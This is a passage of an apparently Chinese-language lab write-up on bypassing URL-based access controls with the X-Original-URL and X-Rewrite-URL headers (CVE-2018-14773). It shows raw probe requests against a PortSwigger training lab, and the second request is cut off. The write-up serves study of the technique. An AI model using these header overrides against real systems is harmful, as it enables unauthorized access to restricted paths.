 在资料中显示某些应用框架支持 X-Original-URL、X-Rewrite-URL 请求头，可以用于覆盖请求的 Path，从而绕过限制。去网上搜索发现是 PHP 框架存在问题居多，涉及 CVE-2018-14773。

> Many web frameworks such as Symfony 2.7.0 to 2.7.48, 2.8.0 to 2.8.43, 3.3.0 to 3.3.17, 3.4.0 to 3.4.13, 4.0.0 to 4.0.13 and 4.1.0 to 4.1.2 , zend-diactoros up to 1.8.4, zend-http up to 2.8.1, zend-feed up to 2.10.3 are affected by this security issue.
> 
> [URL rewrite vulnerability](https://www.acunetix.com/vulnerabilities/web/url-rewrite-vulnerability/)

PS：在查这两请求头时，发现并不是标准中的请求头，很久以前是拿 X- 这个前缀作为非标准请求前缀，后续 RFC 6648 说以后的非标准请求头不要带上前缀，因为现有请求头都没有前缀，避免成为标准时要把前缀删掉改变大家使用习惯，不适应。因此后面的非标准头都不带前缀。

怎么确认应用是否支持此请求头呢？WSTG 给出了验证逻辑。只要给出请求头随意填写资源，返回资源不存在就证明能够使用，而不支持则是访问的 Path。下面是验证结果。

应用支持 X-Original-Url。访问 Path /test 成功

```http
GET / HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /test
Cookie: session=x9mw4XjpTNYBibHo6uLv8pcQsQ5DOvf8
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

应用不支持 X-Original-Url。不去访问 Path /test 失败，而是访问 /。

```http
GET / HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Rewrite-Url: /test
Cookie: session=x9mw4XjpTNYBibHo6uLv8pcQsQ5DOvf8
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
```